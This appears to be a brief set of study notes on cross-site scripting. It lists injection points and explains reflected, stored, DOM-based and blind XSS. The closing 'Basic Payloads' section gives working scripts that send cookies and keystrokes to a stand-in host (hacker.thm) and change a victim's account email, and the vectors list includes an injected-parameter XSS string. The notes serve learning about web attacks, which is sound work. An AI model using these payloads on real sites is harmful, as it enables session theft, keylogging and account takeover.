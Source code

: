 				Attack Vectors

-- Customizable Themes & Profiles via CSS
-- Event or meeting names
-- URI based
-- Imported from a 3rd party (think Facebook integration)
-- JSON POST Values (check returning content type)
-- File Upload names
-- Uploaded files (swf, HTML, ++)
-- Custom Error pages
-- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
-- Login and Forgot password forms

				Reflected XSS
-- supplied data in an HTTP request is included in the webpage source without any validation.	
-- Parameters in the URL Query String
-- URL File Path
-- Sometimes HTTP Headers

				Stored XSS
				
-- the XSS payload is stored on the web application and then gets run when other users visit the site or web page.

-- Comments on a blog
-- User profile information  
-- Website Listings

				Dom Based XSS
		
--JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

-- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.
				
				Blind XSS
				
-- your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Basic Payloads

-- Session Stealing
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

-- Key logger 
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

-- Business Logic(so you can change their Password)
<script>user.changeEmail('attacker@hacker.thm');</script>

-- Beef Framework